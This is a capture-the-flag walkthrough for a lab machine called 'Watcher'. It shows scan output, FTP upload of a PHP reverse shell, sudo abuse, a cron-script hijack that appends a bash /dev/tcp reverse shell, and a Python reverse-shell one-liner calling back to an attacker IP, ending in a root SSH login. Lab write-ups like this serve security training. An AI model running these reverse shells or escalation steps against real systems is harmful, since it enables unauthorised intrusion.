

---

title: Watcher

difficulty: medium

date: "2023-06-07"

author: MatDef

---

  

# Information Gathering

  

### nmap
```shell
[REDACTED]
PORT   STATE SERVICE REASON  VERSION

21/tcp open  ftp     syn-ack vsftpd 3.0.3

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey:

|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)

| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7hN8ixZsMzRUvaZjiBUrqtngTVOcdko2FRpRMT0D/LTRm8x8SvtI5a52C/adoiNNreQO5/DOW8k5uxY1Rtx/HGvci9fdbplPz7RLtt+Mc9pgGHj0ZEm/X0AfhBF0P3Uwf3paiqCqeDcG1HHVceFUKpDt0YcBeiG1JJ5LZpRxqAyd0jOJsC1FBNBPZAtUA11KOEvxbg5j6pEL1rmbjwGKUVxM8HIgSuU6R6anZxTrpUPvcho9W5F3+JSxl/E+vF9f51HtIQcXaldiTNhfwLsklPcunDw7Yo9IqhqlORDrM7biQOtUnanwGZLFX7kfQL28r9HbEwpAHxdScXDFmu5wR

|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)

| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBmjWU4CISIz0mdwq6ObddQ3+hBuOm49wam2XHUdUaJkZHf4tOqzl+HVz107toZIXKn1ui58hl9+6ojTnJ6jN/Y=

|   256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)

|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHb7zsrJYdPY9eb0sx8CvMphZyxajGuvbDShGXOV9MDX

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))

|_http-generator: Jekyll v4.1.1

| http-methods:

|_  Supported Methods: GET HEAD POST OPTIONS

|_http-server-header: Apache/2.4.29 (Ubuntu)

|_http-title: Corkplacemats

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 ```


## Website


Niktoscan

```shell
[REDACTED]
+ /robots.txt: Entry '/flag_1.txt' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file

+ /robots.txt: contains 2 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt

+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed

+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649

+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.

+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.

+ /css/: Directory indexing found.

+ /css/: This might be interesting.

+ /images/: Directory indexing found.

+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/

```

### robots.txt

  
  - Secret File not accessable
##### flag_1.txt



### Directory Traversal possible

##### User List:
- toby
- mat
- ftpuser
- will
Sensitive file: Secret file do not read


Access to ftp


##### flag_2.txt

#### Local File Inclusion
Possible to add (pentestmonkey)php-reverse shell in files
Save location: `/home/ftpuser/ftp/files/rev_shell.php`
Access via Meterpreter/Metasploit


##### Flag_3.txt:


Can execute sudo without password


Spawn a shell: `sudo -u toby /bin/bash`
Access flag_4.txt and download to attacker with nc


There is a note
```shell
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```
- /etc/crontab
```shell
[REDACTED]
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```
Every Minute cow.sh script is running


Its modifiable
`toby@watcher:/home/toby/jobs$ echo '/bin/bash -i >& /dev/tcp/10.18.90.87/4444 0>&1' >> cow.sh`
##### flag_5.txt


Found note:
```shell
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will

```

```shell
sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *

```
Two script: `cmd.py` (writable with mat) and will_script.py
Edit cmd.py which is called by will_script.py
```shell
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.90.87",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> cmd.py
```
`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1`

Got Access with will


```shell
sudo -l
ls -la /etc/passwd
ls -la /etc/shadow
find / -name id_rsa 2>/dev/null
id #group: adm
```

Search for files with permission-group adm:
```shell
find / -group adm 2>/dev/null
/opt/backups
/opt/backups/key.b64
```
Found id_rsa base64 encoded
Connect as Root
```shell
ssh -i id_rsa root@10.10.56.139
```
##### flag_7.txt

